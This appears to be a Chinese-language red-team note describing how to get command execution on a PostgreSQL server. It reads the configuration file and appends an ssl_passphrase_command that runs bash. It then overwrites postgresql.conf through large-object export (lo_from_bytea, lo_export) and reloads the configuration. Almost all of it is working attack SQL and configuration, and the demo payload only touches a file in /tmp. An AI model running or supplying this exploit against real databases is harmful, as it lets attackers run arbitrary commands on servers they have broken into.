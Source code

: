 读取配置文件内容

```
select setting from pg_settings where name='config_file'
select pg_read_file('/var/lib/postgresql/data/postgresql.conf');
```

在原始配置文件内容末尾追加上ssl配置

```
ssl = on
ssl_cert_file = '/etc/ssl/certs/ssl-cert-snakeoil.pem'
ssl_key_file = '/var/lib/postgresql/data/PG_VERSION'
ssl_passphrase_command_supports_reload = on
ssl_passphrase_command = 'bash -c "touch /tmp/success & echo 12345678; exit 0"'
```

转为 base64 格式
```bash
# 这里我将配置文件的内容存到了 out.txt 中
cat out.txt | base64 -w 0 > base3.txt
```

```sql
-- 将修改后的配置文件加载到largeobject中
select lo_from_bytea(10001,decode('base64的内容,这里略','base64'));

-- 通过lo_export覆盖配置文件
select lo_export(10001,'/var/lib/postgresql/data/postgresql.conf');
SELECT lo_unlink(10001);

-- 重新加载配置文件
select pg_reload_conf();
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/50.png)
